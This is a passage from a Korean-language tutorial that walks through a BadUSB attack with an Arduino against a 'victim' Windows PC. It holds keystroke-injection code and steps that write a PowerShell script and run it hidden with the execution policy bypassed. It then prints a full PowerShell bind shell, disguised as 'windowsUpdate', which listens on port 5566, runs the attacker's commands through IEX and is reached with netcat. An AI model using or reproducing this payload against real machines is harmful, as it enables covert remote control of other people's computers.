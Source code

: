 ```js
    delay(500);
    Keyboard.println("notepad");
    delay(700);
    Keyboard.press(KEY_RETURN);
    delay(200);
    Keyboard.release(KEY_RETURN);
    delay(1000);
    Keyboard.print(EEPROM.get(1, stringArray));
}
```

위의 코드는 복잡해 보일 수 있으니, 단계별로 살펴보도록 하죠:

<div class="content-ad"></div>

- 아두이노를 피해자 컴퓨터에 연결한 후 왼쪽 버튼을 누르면, 프로그램이 명령 프롬프트를 실행하고, 거기에 PowerShell 쉘 코드를 저장하는 updateSource라는 명령 프롬프트 변수를 생성합니다.
- 그 후에 프로그램은 updateSource의 값이 기록된 PowerShell 스크립트 update.ps1을 생성합니다.
- 마지막으로 프로그램은 명령 프롬프트 코드 powershell -ep bypass -windowstyle hidden -file update.ps1을 실행합니다. 이로써 update.ps1 프로그램이 백그라운드에서 실행됨을 보장합니다.
- Exploit을 마치기 전에, 프로그램은 다시 PowerShell을 실행하고 피해자의 IP 주소를 EEPROM에 기록합니다. 이것은 이전에 설명한 WiFi 암호를 전송하는 것과 유사합니다.
- 아두이노를 피해자 컴퓨터에서 분리한 후 내 컴퓨터에 연결합니다. 이번에는 오른쪽 버튼을 눌러 피해자의 IP 주소를 언로드합니다.
- bind shell을 설정하기 위해 netcat 연결을 수립하여 공격을 완료합니다.

아래는 정리된 셸 코드 버전입니다:

```js
# 쉘 기능 정의
function windowsUpdate {
  $stream = $client.GetStream();
  [byte[]]$bytes = 0..65535 | %{0};
  $sendbytes = ([text.encoding]::ASCII).GetBytes('Running as user '+$env:username+' on '+$env:computername+'.');
  $stream.Write($sendbytes, 0, $sendbytes.Length);
  $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>');
  $stream.Write($sendbytes, 0, $sendbytes.Length);
  while (($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0) {
    $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding;
    $data = $EncodedText.GetString($bytes,0,$i);

    try {
      # 공격자로부터 명령 수신
      $sendback=(IEX -Command $data 2 >&1 | Out-String );
    }
    catch {}
    $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> ';
    $x = ($error[0] | Out-String);
    $error.clear();
    $sendback2 = $sendback2 + $x;
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte, 0, $sendbyte.Length);
    $stream.Flush();
  }
  $client.Close();
  if ($listener) {
    $listener.Stop();
  }
}

# 연결 대기
$listener = [System.Net.Sockets.TcpListener] 5566;
$listener.start();

# 여기서 update.ps1 제거!
```